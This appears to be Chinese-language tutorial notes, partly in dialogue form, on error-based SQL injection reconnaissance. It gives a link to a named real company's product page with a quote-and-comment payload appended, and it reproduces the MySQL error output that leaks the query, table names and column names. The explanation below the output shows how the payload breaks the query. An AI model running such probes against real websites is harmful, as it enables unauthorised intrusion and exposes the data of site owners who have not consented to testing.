 # 猜数据库
[目标链接](http://www.a-plussoft.com/en/products.php?id=%27--)

```sql
-- 数据库注释
-- this is comment text

```
## 报错信息
```
SQL Error:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'-- AND prd_lang = 'en'' at line 1
SELECT *
FROM products
WHERE prd_id=\'-- AND prd_lang = 'en'
SQL Error:
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'-- AND pc_lang ='en' ORDER BY pc_sort_id ASC' at line 1
SELECT *
FROM product_content
WHERE pc_prd_id=\'-- AND pc_lang ='en'
ORDER BY pc_sort_id ASC
```

```sql
SELECT *
FROM products
WHERE prd_id=\'-- AND prd_lang = 'en'
```
我加了一个单引号 一个注释语法 导致引发了SQL语句错误
报错已经显示了这条查询语句是什么样子的了
也就是 这个数据库有个products 表
有prd_id 字段 prd_lang 字段
懂了没

懂了 但是想不起来你怎么让它报错
\'-- 就这？
还有其他的方式 这是比较简单的
再演示一下这一步
就是输入单引号 注释然后报错
就这样啊
%27d单引号吗
yes
所以网站都能这样吗
no